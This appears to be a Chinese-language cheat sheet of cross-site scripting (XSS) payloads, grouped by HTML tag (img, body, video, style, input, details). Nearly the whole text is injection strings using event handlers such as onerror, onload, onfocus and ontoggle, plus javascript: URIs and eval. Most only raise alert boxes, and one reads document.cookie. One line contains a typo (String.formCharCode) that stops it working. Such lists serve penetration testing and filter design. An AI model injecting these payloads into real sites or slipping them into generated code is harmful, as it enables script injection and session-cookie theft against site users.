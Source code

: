 ### img标签

```html
<img> 标签定义 HTML 页面中的图像
<img src=1 onerror=alert("xss")>
<img src=1 onerror=alert(document.cookie)>
<img src=1 onerror=eval("alert('xss')")>
<img src=javascript:alert("xss")>
<img src=javascript:alert(String.formCharCode(88,83,83))>
<img src=1 onmouseover=alert('xss')>
```

### body标签

```html
<body> 标签定义文档的主体。
<body onload=alert('xss')>
<body onpageshow=alert('xss')>
```

### video标签

```html
<video> 标签定义视频，比如电影片段或其他视频流。
<video><source onerror=alert(1)>
<video><source onerror="alert('xss');"></video>
<video controls onmouseover="alert('xss');"></video>
<video controls onfocus="alert('xss');" autofocus=""></video>
<video controls onclick="alert('xss');"></video>
```

### style标签

```html
<style> 标签定义 HTML 文档的样式信息。
<style onload=alert(1)></style>
```

### input标签

```html
<input>标签规定了用户可以在其中输入数据的输入字段。点击输入框触发
<input onfocus=alert(1);>
<input value="" onclick=alert('xss') type="text">
<input name="name" value=""onmouseover=prompt('xss') bad="">
<input name="name" value=""><script>alert('xss')</script>
<input onblur=alert(1) autofocus><input autofocus>
<input onfocus="alert(1);" autofocus>
```

### details 标签

```html
<details> 标签通过提供用户开启关闭的交互式控件，规定了用户可见的或者隐藏的需求的补充细节。
<details ontoggle=alert(1);>
<details open ontoggle=alert(1);>
```
